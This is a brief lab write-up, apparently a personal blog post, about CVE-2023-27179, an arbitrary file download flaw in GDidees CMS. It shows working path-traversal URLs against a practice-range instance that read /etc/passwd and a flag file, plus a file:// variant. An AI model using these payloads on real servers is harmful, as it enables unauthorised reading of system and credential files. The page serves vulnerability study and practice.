 ```yaml
---
title: "CVE-2023-27179"
date: 2024-07-25
tags: ["春秋云镜","CVE","LFI"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2023-27179>

## Description

GDidees CMS v3.9.1 and lower was discovered to contain an arbitrary file download vulenrability via the filename parameter at /_admin/imgdownload.php.

## 演示

环境: [春秋云镜 免费空间>CVE-2023-27179](https://yunjing.ichunqiu.com/cve/detail/1164)

### 1.验证

<https://eci-2ze1yk1jnhh0vbk5ueiq.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../etc/passwd>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1164/1.webp)

### 2.利用

<https://eci-2ze1yk1jnhh0vbk5ueiq.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../flag>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1164/2.webp)

<https://eci-2ze1yk1jnhh0vbk5ueiq.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=file:///flag>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1164/3.webp)